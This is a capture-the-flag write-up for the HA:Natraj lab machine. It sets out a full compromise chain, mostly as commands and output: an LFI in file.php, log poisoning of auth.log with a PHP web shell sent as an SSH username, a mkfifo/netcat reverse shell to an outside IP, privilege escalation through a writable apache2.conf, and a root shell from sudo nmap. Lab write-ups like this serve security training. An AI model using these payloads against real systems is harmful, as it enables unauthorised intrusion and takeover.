




## Ha-Natraj: Writeup

Nmap scan reveals two ports open:

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+Gv/kpy3r+s15xcQ3TABj4bHKW6cfSBW4Nm8UutdX8W6JJam+7EOpwOpbsItLbkm2nrWEB72D47z5ayx63Hn+e8qGn8Vw9yzZS0z2JSMOWyeYVEYM4G9dPZlUJavoOOe4zrWiiZtj3IbMZy1wnjhaEgne5sC27o+1a73+Lgwz/xik+XtlCEUyxK+RnUa7dEEF9HIy+5B2qptnrUdISLDzXMwUFRlXM7GlA84Y8X0DLs90YNaDCxnvjkp5VOTIWDKtt78U+9ClEgWMkfHGSpiuvGMm1AHCkFPLtNfDoF6pYm2lOI4Lv090Ce/TRqBFCPq1oL6MrpkSpq6tXhEh4wox
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN7p17tEdnU25MlcknnznQEFmFu3wnoXy7Tam4z8/7sv+l/G3FkLJkfyeRCHMo5Y+z6rGNfB1Zt9jshB8TDkdCg=
|   256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPugHptbBU0i1SJ0DkVvuyGN9HsQf0GzlPTdJYJqKE+U
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: HA:Natraj
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This usually suggests that the foothold will be established through the web service.
The visiting the website, it seems like just a static page with lots of images.
Fuzz the web root:

```bash
$ gobuster dir -u http://192.168.196.80/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.196.80/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/13 16:55:36 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/console              (Status: 301) [Size: 318] [--> http://192.168.196.80/console/]
/images               (Status: 301) [Size: 317] [--> http://192.168.196.80/images/]
/index.html           (Status: 200) [Size: 14497]
/server-status        (Status: 403) [Size: 279]
```

`/console` is interesting. Visiting this endpoint redirects to a directory that lists a single file: `file.php`. Although the file is not empty, nothing happens if I load it.
The name is suspicious and suggest LFI. To check the file parameter being used, I can fuzz using `burp-parameter-names.txt` from SecLists, providing a possible value for it, like `/etc/passwd`:

```bash
$ ffuf -u http://192.168.196.80/console/file.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fw 1

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.196.80/console/file.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

file                    [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 43ms]
```

So I have a parameter name: `file`.
I can confirm that there is LFI here:

```bash
$ curl -s http://192.168.196.80/console/file.php?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

There are two users here with directories in home: natraj and mahakal.
I searched for any ssh keys I could access in these directories, but they appear non-existent.
There are a variety of ways to leverage LFI to get RCE. One of those is PHP log poisoning. I'm going to use `LFI-Jhaddix.txt` to fuzz for the location of the Apache log files:

```bash
$ ffuf -u http://192.168.196.80/console/file.php?file=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 1

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.196.80/console/file.php?file=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 47ms]
/etc/apache2/apache2.conf [Status: 200, Size: 7224, Words: 942, Lines: 228, Duration: 43ms]
/etc/apt/sources.list   [Status: 200, Size: 3018, Words: 310, Lines: 56, Duration: 44ms]
/etc/crontab            [Status: 200, Size: 722, Words: 103, Lines: 16, Duration: 43ms]
/etc/fstab              [Status: 200, Size: 625, Words: 186, Lines: 12, Duration: 43ms]
/etc/hosts              [Status: 200, Size: 186, Words: 19, Lines: 8, Duration: 44ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 186, Words: 19, Lines: 8, Duration: 44ms]
/etc/hosts.allow        [Status: 200, Size: 411, Words: 82, Lines: 11, Duration: 37ms]
/etc/hosts.deny         [Status: 200, Size: 711, Words: 128, Lines: 18, Duration: 36ms]
/etc/issue              [Status: 200, Size: 24, Words: 5, Lines: 3, Duration: 38ms]
/etc/init.d/apache2     [Status: 200, Size: 8181, Words: 1500, Lines: 356, Duration: 44ms]
/etc/nsswitch.conf      [Status: 200, Size: 513, Words: 131, Lines: 21, Duration: 37ms]
/./././././././././././etc/passwd [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 43ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 40ms]
/etc/passwd             [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 40ms]
<SNIP>
/etc/resolv.conf        [Status: 200, Size: 701, Words: 96, Lines: 18, Duration: 43ms]
/etc/rpc                [Status: 200, Size: 887, Words: 36, Lines: 41, Duration: 43ms]
/etc/ssh/sshd_config    [Status: 200, Size: 3264, Words: 294, Lines: 123, Duration: 40ms]
/etc/updatedb.conf      [Status: 200, Size: 403, Words: 42, Lines: 5, Duration: 41ms]
/proc/cpuinfo           [Status: 200, Size: 1081, Words: 135, Lines: 29, Duration: 37ms]
/proc/interrupts        [Status: 200, Size: 3513, Words: 1338, Lines: 69, Duration: 38ms]
/proc/loadavg           [Status: 200, Size: 25, Words: 5, Lines: 2, Duration: 38ms]
/proc/meminfo           [Status: 200, Size: 1335, Words: 485, Lines: 49, Duration: 39ms]
/proc/mounts            [Status: 200, Size: 2447, Words: 166, Lines: 34, Duration: 38ms]
/proc/net/arp           [Status: 200, Size: 158, Words: 73, Lines: 3, Duration: 37ms]
/proc/net/route         [Status: 200, Size: 384, Words: 211, Lines: 4, Duration: 37ms]
/proc/net/dev           [Status: 200, Size: 447, Words: 237, Lines: 5, Duration: 37ms]
/proc/net/tcp           [Status: 200, Size: 450, Words: 173, Lines: 4, Duration: 36ms]
/proc/self/status       [Status: 200, Size: 1255, Words: 92, Lines: 54, Duration: 42ms]
/proc/partitions        [Status: 200, Size: 116, Words: 51, Lines: 6, Duration: 43ms]
/proc/version           [Status: 200, Size: 146, Words: 17, Lines: 2, Duration: 41ms]
<SNIP>
/var/log/auth.log       [Status: 200, Size: 21507, Words: 2562, Lines: 229, Duration: 39ms]
```

Although I don't seem to have access to the apache log files to call it, I find a suitable alternative: `/var/log/auth.log`. This file keeps a record of the login attempts on ssh. So, the attack becomes to use PHP code as a username when logging into ssh. I'll first try `lemmy: <?php system($_GET['c']); ?>` so that I can just search for `lemmy` and find it in the logs:

```bash
$ ssh 'lemmy: <?php system($_GET['c']); ?>'@192.168.196.80
lemmy: <?php system($_GET[c]); ?>@192.168.196.80's password:
Permission denied, please try again.
lemmy: <?php system($_GET[c]); ?>@192.168.196.80's password:
```



I then tried to get code execution, but it didn't work. I think this is because `lemmy: <?php system($_GET['c']); ?>` was just shortened to `lemmy` in the logs. I changed it then to just use `<?php system($_GET['c']); ?>`. This does work when I fetch the page `http://192.168.196.80/console/file.php?file=/var/log/auth.log&c=id`:

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/ha_natraj]
└─$ ssh '<?php system($_GET['c']); ?>'@192.168.196.80                         
<?php system($_GET[c]); ?>@192.168.196.80's password:
Permission denied, please try again.
<?php system($_GET[c]); ?>@192.168.196.80's password:
```



Time for a reverse shell:

```bash
$ curl -s -G http://192.168.196.80/console/file.php --data-urlencode 'file=/var/log/auth.log' --data-urlencode 'c=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.5 443 >/tmp/f'
```

I catch the shell as www-data:

```bash
www-data@ubuntu:/var/www$ ls -la
total 16
drwxr-xr-x  3 www-data www-data 4096 Aug 18  2020 .
drwxr-xr-x 12 root     root     4096 Jun  3  2020 ..
drwxrwxrwx  4 www-data www-data 4096 Jun  3  2020 html
-rw-r--r--  1 www-data www-data   33 Mar 13 14:16 local.txt
www-data@ubuntu:/var/www$ whoami
www-data
www-data@ubuntu:/var/www$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www$ hostname
ubuntu
www-data@ubuntu:/var/www$ hostname -I
192.168.196.80
www-data@ubuntu:/var/www$ cat local.txt
81ab3b3cb971eab5608b112fb330117d
```




Check sudo privileges for www-data:

```bash
www-data@ubuntu:/home$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/systemctl start apache2
    (ALL) NOPASSWD: /bin/systemctl stop apache2
    (ALL) NOPASSWD: /bin/systemctl restart apache2
```

Alright, this suggests there is a potential path by restarting the Apache service. However, this only becomes clear after I run Linpeas and see that I have write privileges over the `apache2.conf` file:

```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/apache2/apache2.conf
```

Here are the interesting lines in this file:

```bash
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}
```

Right now, the web service is running as www-data, the default web user. If I change this to another user, it will then run as that user. I'll change this to run as mahakal and see what I can do as him.
Make these changes to `apache2.conf`:

```bash
# These need to be set in /etc/apache2/envvars
User mahakal
Group mahakal
```

Next, since I don't want to poison the auth logs again, I'll upload a simple PHP reverse shell file and put it in the web root folder, `/var/www/html`. I'll then use the sudo privilege to restart the apache2 service.
I wait a bit, then catch the shell as mahakal:



Check this user's sudo privileges:

```bash
mahakal@ubuntu:/home/mahakal$ sudo -l
Matching Defaults entries for mahakal on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakal may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nmap
```

I can run nmap as root. The simplest way to get a shell with nmap is to run the `--interactive` flag. However, this doesn't seem to be available. Instead, I'll use the alternative and start nmap with a script that launches a shell session, rooting the box:

```bash
mahakal@ubuntu:/home/mahakal$ TF=$(mktemp)
mahakal@ubuntu:/home/mahakal$ echo 'os.execute("/bin/sh")' > $TF
mahakal@ubuntu:/home/mahakal$ sudo nmap --script=$TF

Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-13 14:41 PDT
NSE: Warning: Loading '/tmp/tmp.7Hu9tpyza8' -- the recommended file extension is '.nse'.
# cd /root
# ls
proof.txt  root.txt
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname -I
192.168.196.80
# cat proof.txt
07b2433a3664a68f5d1fbd6230643583
```

